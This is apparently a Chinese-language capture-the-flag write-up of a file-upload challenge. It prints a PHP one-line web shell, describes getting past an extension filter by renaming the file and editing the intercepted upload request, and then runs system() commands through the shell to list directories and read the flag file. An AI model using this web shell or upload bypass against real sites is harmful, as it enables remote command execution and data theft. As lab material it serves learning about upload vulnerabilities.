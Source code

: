 ![image-20250403181321403](./assets/image-20250403181321403.png)

php一句话木马

```
<?php @eval($_POST[ra1n3]);?>
```

上传php文件失败



修改php后缀名为jpg

抓包上传

![image-20250403181423270](./assets/image-20250403181423270.png)

![image-20250403181430536](./assets/image-20250403181430536.png)



再将文件后缀名改为php

![image-20250403181447136](./assets/image-20250403181447136.png)



成功上传

![image-20250403181454080](./assets/image-20250403181454080.png)



查看上一级目录内容

```
ra1n3=system("ls ../");
```

![image-20250403181525368](./assets/image-20250403181525368.png)



```
ra1n3=system("tac ../flag.php");
```

![image-20250403181614368](./assets/image-20250403181614368.png)